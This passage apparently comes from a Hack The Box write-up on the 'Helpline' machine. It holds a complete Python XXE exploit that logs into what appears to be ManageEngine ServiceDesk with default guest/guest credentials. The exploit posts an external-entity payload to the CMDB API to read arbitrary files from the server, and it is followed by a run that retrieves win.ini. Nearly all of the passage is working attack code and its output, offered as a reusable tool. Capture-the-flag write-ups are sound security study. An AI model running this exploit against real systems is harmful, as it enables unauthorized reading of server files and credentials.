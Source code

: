     
    
    import requests
    import sys
    
    xxe = """<!DOCTYPE foo [<!ENTITY xxe15d41 SYSTEM "file:///{filepath}"> ]><API version='1.0' locale='en'>
        <records>
            <record>
                <parameter>
                    <name>CI Name</name>
                    <value>Tomcat Server 3 0xdfstart&xxe15d41;0xdfstop</value>
                </parameter>
            </record>
        </records>
    </API>
    """
    
    
    def get_file(ip_address, filepath):
        login_url = "http://"+ip_address+":8080/j_security_check"
        api_url = "http://"+ip_address+":8080/api/cmdb/ci"
        login_data={"j_username": "guest", "j_password": "guest", "LDAPEnable": "false", "hidden": "Select a Domain", "hidden": "For Domain", "AdEnable": "false", "DomainCount": "0", "LocalAuth": "No", "LocalAuthWithDomain": "No", "dynamicUserAddition_status": "true", "localAuthEnable": "true", "logonDomainName": "-1", "loginButton": "Login", "checkbox": "checkbox"}
        
        with requests.Session() as s:
            s.post(login_url, data=login_data)
            xxe_data={"OPERATION_NAME": "add", "INPUT_DATA": xxe.format(filepath=filepath)}
            response = s.post(api_url, data=xxe_data)
            try:
                    print(response.text[response.text.index("0xdfstart") + len("0xdfstart"):response.text.index("0xdfstop")].replace("\\r\\n","\n"))
            except ValueError:
                print("Error: No data returned")
    
    if len(sys.argv) != 3:
        print(f"Usage: {sys.argv[0]} [ip] [filepath]\nfilepath can be file on target, or smb or http uri")
        sys.exit(1)
    get_file(sys.argv[1],sys.argv[2].replace("\\", "/"))
    

I can use it to grab `win.ini` for a test:

    
    
    PS C:\Users\0xdf\hackthebox\helpline-10.10.10.132 > python .\mesep_xxe.py 10.10.10.132 "C:\windows\win.ini"
    ; for 16-bit app support
    [fonts]
    [extensions]
    [mci extensions]
    [files]
    [Mail]
    MAPI=1
    